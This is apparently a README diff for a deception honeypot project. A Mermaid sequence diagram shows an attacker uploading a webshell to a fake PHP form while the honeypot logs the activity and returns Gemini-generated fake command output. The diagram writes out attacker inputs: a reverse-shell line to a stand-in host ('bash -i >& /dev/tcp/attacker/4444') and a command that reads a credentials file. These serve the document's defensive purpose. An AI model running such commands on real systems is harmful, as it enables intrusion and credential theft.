

One commit to Mark-Meka/Maze-Myth-Dynamic-Honeypot changed the third of 7 diagrams in README.md. Above: the diagram before and after it, drawn with Mermaid (forest theme). The commit also changed other lines of this file and 2 other files, not shown here.

````diff
--- a/README.md
+++ b/README.md
@@ -77,48 +78,40 @@
 ```mermaid
 sequenceDiagram
     actor A as 🎭 Attacker
     participant H as Honeypot (8001)
     participant Intel as AttackerIntel
     participant RAG as Shell RAG Engine
     participant LLM as Gemini AI
 
     A->>H: GET /clientportal/support/attachments.php
-    H->>Intel: record_form_view(ip, endpoint)
-    H-->>A: Realistic PHP upload form (Apache/2.4.54 headers)
+    H->>Intel: record_form_view(ip)
+    H-->>A: Realistic PHP form (Apache/2.4.54 + PHP/7.4.33 headers)
 
-    Note over A: Uploads shell.php with webshell code
+    Note over A: Uploads shell.php containing webshell code
 
     A->>H: POST /clientportal/support/attachments.php
-    H->>Intel: record_upload(ip, filename, bytes, endpoint)
-    Note over H: _analyze_file() → 18 payload tag patterns<br/>_contains_webshell_code() → 13 regex checks<br/>Register in _shell_registry — NO disk write
-    H->>Intel: record event → UPLOAD_SHELL (threat=CRITICAL)
-    H-->>A: ✅ Success page + /uploads/shell.php URL
+    H->>Intel: record_upload(ip, filename, bytes)
+    Note over H: 13-pattern webshell check + 18-tag file analysis<br/>Register in _shell_registry — NO disk write
+    H-->>A: ✅ Upload success + /uploads/shell.php URL
 
-    Note over A: Tries to execute webshell
+    A->>H: GET /uploads/shell.php?cmd=ls -la
+    H->>Intel: record_webshell_access(ip, cmd)
+    H->>RAG: resolve_shell_command("ls -la")
+    RAG->>LLM: Generate realistic Apache2 directory listing
+    Note over LLM: Full AI-generated output with realistic<br/>filenames, permissions, timestamps
+    LLM-->>H: "drwxr-xr-x 3 www-data www-data..."
+    H-->>A: Realistic directory listing
 
-    A->>H: GET /uploads/shell.php?cmd=whoami
-    H->>Intel: record_webshell_access(ip, cmd)
-    H->>RAG: resolve_shell_command("whoami")
-
-    alt Exact cache (58 ground-truth commands)
-        RAG-->>H: "www-data"
-    else TF-IDF fuzzy match (Cowrie dataset)
-        RAG-->>H: Closest real command output
-    else Gemini LLM fallback
-        RAG->>LLM: Generate realistic output for "whoami"
-        LLM-->>RAG: "www-data"
-        RAG-->>H: "www-data" (cached)
-    end
-
-    H-->>A: www-data
+    A->>H: GET /uploads/shell.php?cmd=cat config.php
+    H->>RAG: resolve_shell_command("cat config.php")
+    RAG->>LLM: Generate realistic PHP banking app source
+    LLM-->>H: "<?php $db_host = 'db-primary-1.internal'..."
+    H-->>A: Realistic PHP credentials file
 
     Note over A: Tries reverse shell
 
     A->>H: GET /uploads/shell.php?cmd=bash -i >& /dev/tcp/attacker/4444
-    H->>Intel: record_command(ip, cmd) → phase=POST_EXPLOIT risk=95
-    Note over H: Simulate 1.5s network hang → EOF
-    H-->>A: (empty — simulated connection refused)
-
-    A->>H: GET /api/dashboard/cve/file-upload/attacker/IP
-    Note over H: Full profile: geo · phase · risk · deception hints
+    H->>Intel: record_command → phase=POST_EXPLOIT risk=95
+    Note over H: Dynamic handler: random 1.5–3s delay
+    H-->>A: "bash: connect: Connection timed out"
 ```
````
